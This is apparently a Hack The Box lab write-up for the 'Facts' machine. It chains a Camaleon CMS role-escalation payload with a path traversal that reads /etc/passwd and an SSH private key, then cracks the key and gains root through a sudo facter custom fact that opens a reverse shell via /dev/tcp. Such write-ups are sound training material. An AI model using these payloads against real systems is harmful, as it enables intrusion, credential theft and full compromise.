








{HackTheBox_Machine_WriteUp}

---

| **Machine Name** |**Facts**     |
| ---------------- | ------------- |
| Difficulty       | Easy          |
| IP Address       | 10.129.37.218 |
| Release Date     | 4 FEB 2026    |
| Pwned Date       | 4 FEB 2026    |

---
#### Table of Contents 

1. Executive Summary
2. Reconnaissance
	2.1  Port Scanning
	2.2  Web Enumeration
	2.3  Service  Enumeration 
4. Initial Access
5. Lateral Movement
6. Privilege Escalation
7. Proofs
8. References

---
### 1.Executive Summary

This report documents the penetration testing process of the Facts machine from Hack The Box.The objective was to identify vulnerabilities and exploit them to achieve full system compromise (user + root). 

The given attack box is vulnerable to two CVE's, CVE-2025-2304 and CVE-2024-46987.Which gives the user from internet to register it self on application and then change his role to Admin due to 'permit!' method in the updated_ajax action.Which then leads to use of CVE-2024-46987 that gives us the path traversal functionality tends to sensitive information dis-closer from server.

You can find full attack chain and screenshots for that in later sections.

---
### 2.Reconnaissance

####  2.1 Port Scanning

```
sudo nmap -sC -sV -p- 10.129.37.218 --min-rate 2000 -oN facts_nmap
```

Findings:

Open ports: 22,80,54321
Domain : facts.htb

Add this to /etc/hosts.

```
sudo nano /etc/hosts

10.129.37.218 facts.htb
```

#### 2.2 Web Enumeration

```
ffuf -u http://facts.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt
```

Findings:
Many pages we found but interesting one is admin.

#### 2.3 Service  Enumeration

Interesting Findings :

- Account registration functionality got identified on /admin/login page, allowing user to create an account.I have used below cred's to create an account.

		Creds :- Username: koham Password : Pass@123


- Login with that cred's give us information that we are engaging with Camaleon CMS version 2.9.0.

- Google search revels that this version exposed to many vulnerabilities.
- From these we can chain two vulnerabilities to get foothold on server.

Vulnerabilities Found :

CVE-2025-2304 and CVE-2024-46987.


---
### 3.Initial Access

We start with the CVE-2025-2304.
This vulnerability give's us ability to change a normal user role to admin.
Follow below instructions to change to admin role from normal user.

Use password change functionality to change your password and intercept that request.Use below payload with your password and send request to server.

```
password%5Brole%5D=admin
```

That lead's to role change to Admin.

Now,We are admin.Our next step to use CVE-2024-46987 and get sensitive information from the server.For that use below payload which gives us the /etc/passwd file.

```
http://facts.htb/media/download_private_file?../../../../../../../etc/passwd
```

We have successfully got the file from server and this gives a user "**trivia**".Now our aim should be getting a ssh private key,because our nmap scan reveal us that only port 22,80 and 54321 are open.From that port 80 is hosting web server, 54321 port hash no clue so far.But we know port 22 is ssh so we will try to get private key for user **"trivia"**. 

We can found trivia users ssh key in,

```
/home/trivia/.ssh/id_ed25519
```

```
http://facts.htb/media/download_private_file?../../../../../../../home/trivia/.ssh/id_ed25519
```

We have now successfully downloaded the ssh key.

---
### 4.Lateral Movement

When i tried to ssh for trivia user i get prompted for password,that means this ssh key is password protected and we don't know password so far.So let's try to crack the password using ssh2john tools.Use below step's for your ease.

```
ssh2john id_ed25519 > key
john --wordlist=/usr/share/seclists/rockyou.txt key
```

ssh2john able to crack that password.The password is found in rockyou.txt .

With that password we can now ssh as user trivia.

```
ssh -i id_ed25519 trivia@10.129.37.128
```

**Access gained as user : trivia**


---
### 5.Privilege Escalation

5.1 Enumeration

```
sudo -l
```

This Tell's us we can run /usr/bin/facter as sudo user.

Google Gemini gives information that,
Facter was built by Puppet to ensure uniform system data collection across different operating systems and we can create Custom Facts in ruby scripts to gather server data.

You can follow next step's to get root on server.

```
### create a directory in /tmp/facts
mkdir /tmp/facts

### add root.rb file in it
nano root.rb

### add this text in root.rb file.

Facter.add('Shell') do
  setcode do
    require 'open3'
    stdout, stderr, status = Open3.capture3('/bin/bash -c "bash -i >& /dev/tcp/your-ip/4444 0>&1"' )
    stdout.strip
  end
end


### Start listner on port 4444 with rlwrap for more interactive shell.
rlwrap nc -lnvp 4444
```


After following this you will get the root shell.

---
### 6.Proof






---




















---
### 7.References

1. [CVE-2025-2304](https://nvd.nist.gov/vuln/detail/CVE-2025-2304)
2. [CVE-2024-46987](https://nvd.nist.gov/vuln/detail/CVE-2024-46987)
3. https://www.tenable.com/security/research/tra-2025-09


---

{HackTheBox_Machine_WriteUp}
